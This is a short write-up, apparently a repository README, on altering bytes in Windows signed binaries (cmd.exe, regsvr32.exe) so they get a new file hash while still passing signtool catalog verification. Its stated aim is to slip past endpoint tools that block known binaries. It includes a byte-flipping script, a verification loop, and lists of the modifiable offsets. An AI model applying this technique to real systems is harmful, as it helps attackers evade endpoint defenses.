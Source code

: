 # Generate Windows Signed Binary With a Different Hash

The idea was to bypass endpoint solution that block known "malicious" signed application such as "regsvr32.exe". I wanted to find a way to get a valid signed file with a different hash.

# The Analysis

Using `signtool verify /v /a cmd.exe`

```
C:\signcheck>signtool verify /a /v cmd.exe

Verifying: cmd.exe
File is signed in catalog: C:\windows\system32\CatRoot\{F750E6C3-38EE-11D1-85E5-
00C04FC295EE}\Microsoft-Windows-Foundation-Package~31bf3856ad364e35~amd64~~6.1.7
601.17514.cat
Hash of file (sha1): 7EB22CBAA74B208DF433C70C06A99280036A52F3

Signing Certificate Chain:
    Issued to: Microsoft Root Certificate Authority
    Issued by: Microsoft Root Certificate Authority
    Expires:   Sun May 09 19:28:13 2021
    SHA1 hash: CDD4EEAE6000AC7F40C3802C171E30148030C072
```

I thought the "Hash of file" was the SHA1 of cmd.exe based on the output (7EB22CBAA74B208DF433C70C06A99280036A52F3)

Further check revealed that the SHA1 of cmd.exe file was

```
$ sha1sum.exe cmd.exe
0f3c4ff28f354aede202d54e9d1c5529a3bf87d8 *cmd.exe
```

Interesting same file 2 different hashes.

# Generating Test Files

At this point I suspected that the signature may not include all sections of the file.

I wrote a simple python script to generate test files.

```
import sys

orig = list(open(sys.argv[1], "rb").read())

i = 0
while i < len(orig):
	current = list(orig)
	current[i] = chr(ord(current[i]) ^ 0xde)
	path = "%d.exe" % i
	
	output = "".join(str(e) for e in current)
	open(path, "wb").write(output)
	i += 1
	
print "done"
```

`python generate.py cmd.exe` was then executed and generated more than 300 Gb of new files.

# Final Step 

We now need to validate each files we created to see if they pass the signature test.

A simple batch file can to that

```
FOR /L %%A IN (1,1,10000) DO (
	signtool verify /v /a %%A.exe
)
```

The binary 330.exe passed the signature check. in this case the file is different since the offset 330 was modified.

```
C:\signcheck>signtool verify /a /v 330.exe

Verifying: 330.exe
File is signed in catalog: C:\windows\system32\CatRoot\{F750E6C3-38EE-11D1-85E5-
00C04FC295EE}\Microsoft-Windows-Foundation-Package~31bf3856ad364e35~amd64~~6.1.7
601.17514.cat
Hash of file (sha1): 7EB22CBAA74B208DF433C70C06A99280036A52F3
```

```
$ sha1sum.exe 330.exe
4c05efb9d67291febe44f8c661db55a1ec06bc41 *330.exe

$ sha1sum cmd.exe
0f3c4ff28f354aede202d54e9d1c5529a3bf87d8 *cmd.exe
```

# cmd.exe

The following bytes can be modified without breaking the signature:
`330, 331, 408 - 412`


# regsvr32.exe

The following bytes can be modified without breaking the signature:
`320 - 323, 400 - 407`

